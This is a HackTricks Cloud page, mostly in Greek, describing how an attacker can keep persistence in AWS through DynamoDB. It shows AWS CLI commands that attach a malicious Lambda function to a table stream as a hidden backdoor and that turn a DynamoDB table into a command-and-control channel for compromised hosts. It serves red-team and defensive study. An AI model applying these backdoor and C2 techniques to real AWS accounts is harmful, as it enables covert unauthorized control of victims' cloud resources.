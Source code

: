 # AWS - DynamoDB Persistence

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### DynamoDB

Για περισσότερες πληροφορίες, επισκεφθείτε:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### DynamoDB Triggers με Backdoor Lambda

Χρησιμοποιώντας τους triggers του DynamoDB, ένας επιτιθέμενος μπορεί να δημιουργήσει μια **κρυφή backdoor** συνδέοντας μια κακόβουλη λειτουργία Lambda με έναν πίνακα. Η λειτουργία Lambda μπορεί να ενεργοποιηθεί όταν ένα στοιχείο προστεθεί, τροποποιηθεί ή διαγραφεί, επιτρέποντας στον επιτιθέμενο να εκτελέσει αυθαίρετο κώδικα εντός του λογαριασμού AWS.

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

Για να διατηρήσει την επιμονή, ο επιτιθέμενος μπορεί να δημιουργήσει ή να τροποποιήσει στοιχεία στον πίνακα DynamoDB, κάτι που θα ενεργοποιήσει τη κακόβουλη λειτουργία Lambda. Αυτό επιτρέπει στον επιτιθέμενο να εκτελεί κώδικα εντός του λογαριασμού AWS χωρίς άμεση αλληλεπίδραση με τη λειτουργία Lambda.

### DynamoDB ως Κανάλι C2

Ένας επιτιθέμενος μπορεί να χρησιμοποιήσει έναν πίνακα DynamoDB ως **κανάλι εντολών και ελέγχου (C2)** δημιουργώντας στοιχεία που περιέχουν εντολές και χρησιμοποιώντας συμβιβασμένα instances ή λειτουργίες Lambda για να ανακτούν και να εκτελούν αυτές τις εντολές.
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
Οι συμβιβασμένες περιπτώσεις ή οι λειτουργίες Lambda μπορούν περιοδικά να ελέγχουν τον πίνακα C2 για νέες εντολές, να τις εκτελούν και προαιρετικά να αναφέρουν τα αποτελέσματα πίσω στον πίνακα. Αυτό επιτρέπει στον επιτιθέμενο να διατηρεί την επιμονή και τον έλεγχο πάνω στους συμβιβασμένους πόρους.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
